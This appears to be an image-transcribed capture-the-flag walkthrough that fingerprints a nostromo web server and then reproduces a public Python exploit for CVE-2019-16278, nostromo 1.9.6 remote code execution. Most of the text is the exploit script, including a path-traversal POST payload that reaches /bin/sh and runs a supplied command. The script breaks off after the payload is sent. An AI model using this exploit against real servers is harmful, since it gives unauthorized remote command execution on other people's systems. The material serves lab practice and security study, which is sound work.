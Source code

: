 ```bash
js                      [Status: 301, Size: 314, Words: 19, Lines: 14]
img                     [Status: 301, Size: 314, Words: 19, Lines: 14]
lib                     [Status: 301, Size: 314, Words: 19, Lines: 14]
index.html              [Status: 200, Size: 15674, Words: 3910, Lines: 401]
```

One thing that I had noticed was that the webserver is kinda unique as it not apache or nginx but nostromo.
Checking for the exploits for the webserver. I found a exploit with CVE-2019-16278.
```bash
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278


#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    



"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
```